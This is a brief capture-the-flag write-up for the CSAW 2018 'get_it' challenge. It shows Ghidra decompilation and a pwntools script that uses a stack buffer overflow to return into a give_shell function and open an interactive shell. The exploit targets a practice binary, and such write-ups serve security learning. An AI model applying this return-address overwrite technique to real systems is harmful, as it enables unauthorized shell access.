![alt text](images/csaw18-getit/image.png)

Decompiling with Ghidra:

![alt text](images/csaw18-getit/image-2.png)

We also get another function `give_shell`:

![alt text](images/csaw18-getit/image3.png)

In similar way to `csaw16quals-warmup`, we calculate offset and resolve the MOVAPS issue.

![alt text](images/csaw18-getit/image4.png)

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template get_it
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'get_it')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()
payload = b'0' * 0x28  +p64(0x4005c6) +  p64(0x4005b6)
io.recvuntil(b"Do you gets it??\n")
io.send(payload)
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

```

Hence, we get access to the terminal.

![alt text](images/csaw18-getit/image-5.png)
